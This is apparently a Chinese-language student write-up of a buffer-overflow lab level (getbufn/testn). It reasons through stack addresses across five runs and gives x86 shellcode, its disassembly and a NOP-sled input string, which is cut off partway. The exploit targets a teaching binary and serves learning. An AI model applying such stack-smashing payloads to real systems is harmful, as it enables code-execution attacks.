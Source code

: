 以上分别为函数 *testn* 和 *getbufn* 的汇编代码，其流程与 *Level 3* 完全一致（除了某些跳转【因函数改变】或偏移地址【因字符串预分配大小不同】不同），在此不再赘述，直接绘制出该程序第一次运行的栈示意图如下：

![](/fig_l4_1.jpg)

如图所示，第一次读取字符串在栈上地址为 *0x55683b68* ，返回 *test* 函数的地址存储在栈上地址 *0x55683d74* ，攻击代码应放置在两个地址之间长度为 *0x20c* 的范围内，且地址 *0x55683d74* 应保存攻击代码在栈上的首地址。程序连续 *5* 次读取字符串在栈上的首地址分别为：*0x55683b68* , *0x55683a58* , *0x55683ae8* , *0x55683bc8* , *0x55683b38* 。应取其中最大的地址为栈上地址 *0x55683d74* 处保存的返回地址，即 *0x55683bc8* ，这样才能保证函数返回后只可能执行 *Nop* 或者攻击代码（假定输入字符串中只包含 *Nop* 和攻击字符串），不会遇到栈地址上的其它字符。编写攻击代码如下：

> ```assembly
> # example_for_l4.S
> 
> movl	$0x1a245b76,%eax
> lea		0x28(%esp),%ebp
> pushl	$0x8048e3a
> ret
> ```

反汇编得到：

> ```assembly
> # example_for_l4.d
> 
> example_for_l4.o:     file format elf32-i386
> 
> Disassembly of section .text:
> 
> 00000000 <.text>:
>    0:	b8 76 5b 24 1a       	mov    $0x1a245b76,%eax
>    5:	8d 6c 24 28          	lea    0x28(%esp),%ebp
>    9:	68 3a 8e 04 08       	push   $0x8048e3a
>    e:	c3                   	ret    
> ```

![](/fig_l4_2.jpg)

如上示意图所示，返回地址应位于 *A* 区域。若返回地址位于 *B* 区域，则程序在第 *4* 次读取输入字符串时，其首地址位于 *A* 区域，函数返回时将执行输入字符串之外的未知字符串；若返回地址位于 *A* 区域上方的区域，则程序在第 *2* 次读取输入字符串时，字符串最长只能覆盖到 *A* 区域，不可能执行到攻击代码。攻击代码应位于输入字符串的靠后的位置，最稳妥的情况为紧邻返回地址，因为对于程序在第 *2* 次读取输入字符串的情况，因返回地址位于 *A* 区域，所以攻击代码位于字符串靠前位置如 *B* , *C* , *D* , *E* 区域时，其不可能被执行到。所以，输入的字符串可为（取返回地址为 *0x55683bc8* ）：

> ``` 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 